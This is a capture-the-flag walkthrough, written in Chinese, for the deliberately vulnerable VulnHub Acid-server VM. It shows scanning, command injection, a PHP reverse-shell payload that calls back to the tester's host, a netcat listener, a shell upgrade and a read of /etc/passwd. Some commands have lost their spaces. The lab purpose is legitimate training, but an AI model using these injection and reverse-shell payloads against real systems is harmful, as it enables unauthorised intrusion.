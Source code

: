 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port
`$ nc -l 3333`
用php反彈shell成功，最後payload:
`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
## Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell
`$ python -c 'import pty;pty.spawn("/bin/bash")'`
## Step 5
查找用戶，發現三個可疑帳號acid、saman、root
`$ cat/etc/passwd`
嘗試找尋用戶的可疑文件
`$ find-useracid2>/dev/null`
發現pcapng可疑流量檔案，下載回本地查看
## Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
## Step 7
利用find找到flag.txt，成功！
